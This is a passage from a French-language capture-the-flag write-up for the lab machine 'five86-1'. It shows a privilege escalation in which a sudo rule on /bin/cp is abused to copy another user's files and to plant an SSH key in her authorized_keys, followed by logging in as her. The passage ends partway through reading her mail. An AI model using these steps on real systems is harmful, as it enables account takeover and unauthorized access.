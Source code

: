 ## Lemme copy that for you

On peut se connecter via SSH avec les identifiants. L'utilisateur a une autorisation pour exécuter `cp` avec les droits de Jen :

```console
douglas@five86-1:~$ sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
```

J'ai d'abord copié les fichiers de Jen ailleurs, mais d'une façon à ce qu'ils soient lisibles pour moi :

```console
douglas@five86-1:/tmp$ mkdir yolo
douglas@five86-1:/tmp$ chmod 777 yolo
douglas@five86-1:/tmp$ sudo -u jen /bin/cp --no-preserve=mode -r /home/jen/ yolo/
douglas@five86-1:/tmp$ cd yolo
douglas@five86-1:/tmp/yolo$ find jen/ -type f
jen/reports/Audit.txt
jen/reports/IT_Budget.txt
```

Les fichiers ne contiennent rien d'intéressant. On va copier une clé SSH dans le `authorized_keys` de l'utilisatrice.

```console
douglas@five86-1:/tmp$ sudo -u jen /bin/cp authorized_keys /home/jen/.ssh/
```

À peine débarqué on nous accueille avec un autre mot de passe :

```console
$ ssh -i .ssh/key_no_pass jen@192.168.56.141
Linux five86-1 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
jen@five86-1:~$ mail
Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/jen": 1 message 1 new
>N  1 roy@five86-1       Wed Jan 01 03:17   28/885   Monday Moss
& 1
Message 1:
From roy@five86-1 Wed Jan 01 03:17:00 2020
Envelope-to: jen@five86-1
Delivery-date: Wed, 01 Jan 2020 03:17:00 -0500
To: jen@five86-1
Subject: Monday Moss
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
From: Roy Trenneman <roy@five86-1>
Date: Wed, 01 Jan 2020 03:17:00 -0500

Hi Jen,

```